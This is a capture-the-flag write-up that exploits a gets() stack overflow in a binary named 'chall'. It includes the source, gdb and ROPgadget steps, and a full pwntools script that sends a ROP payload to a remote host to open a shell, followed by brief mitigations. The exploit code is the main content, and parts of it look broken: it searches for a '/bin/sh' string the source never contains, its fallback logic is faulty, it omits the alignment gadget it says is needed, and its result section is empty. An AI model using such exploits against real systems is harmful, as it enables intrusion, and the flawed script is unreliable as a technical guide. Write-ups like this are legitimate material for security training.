

# **Write-Up: Buffer Overflow to Direct `system()` Execution**

## **Challenge Overview**
**Binary:** `chall`  
**Protections:**  
- **Partial RELRO** (GOT is writable)  
- **No PIE** (base address fixed)  
- **No Stack Canary**  
- **NX Enabled** (no shellcode execution)  

**Vulnerability:** Buffer overflow in `gets()`  
**Target:** `chall.c00k3d.xyz`  
**Goal:** Execute `system("/bin/sh")` by exploiting the buffer overflow.  

---

## **1. Binary Analysis**
### **Source Code (`chall.c`)**
```c
#include <stdio.h>
#include <string.h>

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
}

int callme() {
    char command[7];
    strcpy(command, "ls -la");
    return system(command);
}

int main() {
    char buffer[32];
    init();
    printf("Enter Data - ");
    gets(buffer);
    return 0;
}
```

### **Key Observations**
1. **`gets(buffer)`** is vulnerable to buffer overflow (no bounds checking).
2. **`callme()`** calls `system("ls -la")`, but we want a shell.
3. **No PIE** → Addresses are constant (easy ROP).
4. **NX Enabled** → Cannot execute shellcode on the stack.

---

## **2. Exploit Strategy**
### **Objective**
Overwrite the return address in `main()` to jump to `system("/bin/sh")` directly.

### **Steps**
1. **Find the offset** to overwrite the return address.
2. **Locate `system@plt`** (since PLT is fixed due to No PIE).
3. **Find `/bin/sh`** in the binary (or use `echo`).
4. **Construct ROP chain** to call `system("/bin/sh")`.

---

## **3. Exploit Development**
### **Step 1: Find the Offset**
The buffer is 32 bytes, and we need to overwrite:
- **32 bytes** (buffer)  
- **8 bytes** (saved RBP)  
- **Total = 40 bytes** to reach the return address.

**Confirm with `gdb`**:
```bash
gdb ./chall
pattern create 100
run
# Crash at 0x6161616161616166 ('faaaaaaa')
pattern offset 'faaaaaaa'
# Output: 40
```

### **Step 2: Locate `system@plt` and `/bin/sh`**
```bash
objdump -d ./chall | grep "system@plt"
# Output: 0000000000401050 <system@plt>
strings -a -t x ./chall | grep "/bin/sh"
# If not found, use 'sh' or 'echo'
```

### **Step 3: Build the ROP Chain**
We need:
1. **`ret` gadget** (for stack alignment in x64).  
2. **`pop rdi; ret` gadget** (to set the first argument).  
3. **Address of `/bin/sh`** (or another command).  
4. **Address of `system@plt`**.

**Find gadgets**:
```bash
ROPgadget --binary ./chall | grep "pop rdi"
# Example: 0x4012ab : pop rdi ; ret
```

---

## **4. Final Exploit Code**
```python
from pwn import *

# Set up binary and ROP
elf = context.binary = ELF('./chall')
rop = ROP(elf)

# Remote target
host = 'chall.c00k3d.xyz'
port = 10003

# Addresses
system_plt = elf.plt['system']
binsh = next(elf.search(b'/bin/sh\x00')) or next(elf.search(b'sh\x00'))
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# Payload
offset = 40
payload = flat(
    b'A' * offset,      # Padding to return address
    pop_rdi,            # Set RDI = /bin/sh
    binsh,              # Argument for system()
    system_plt          # Call system("/bin/sh")
)

# Exploit
io = remote(host, port)
io.sendlineafter(b"Enter Data - ", payload)
io.interactive()  # Get shell!
```

---

## **5. Why This Works**
1. **Buffer Overflow**: `gets()` allows writing past `buffer[32]`.  
2. **No Stack Canary**: No protection against overwriting the return address.  
3. **No PIE**: `system@plt` and gadgets have fixed addresses.  
4. **ROP Chain**:  
   - `pop rdi` sets the argument (`/bin/sh`).  
   - `system@plt` is called directly.  

---

## **6. Mitigations**
To prevent this exploit:
1. **Use `fgets()` instead of `gets()`** (bounds checking).  
2. **Enable Full RELRO** (makes GOT read-only).  
3. **Enable Stack Canaries** (detects stack smashing).  
4. **Enable PIE** (randomizes binary addresses).  

---

## **Conclusion**
- **Vulnerability**: Unbounded `gets()` → Buffer overflow.  
- **Exploit**: Overwrite return address → ROP to `system("/bin/sh")`.  
- **Result**: Remote shell access.  

## result:



---

### **Notes**
- If `/bin/sh` isn’t in the binary, use `echo *` to list files, then `cat flag.txt`.  
- If ASLR were enabled, we’d need a **libc leak** first.  
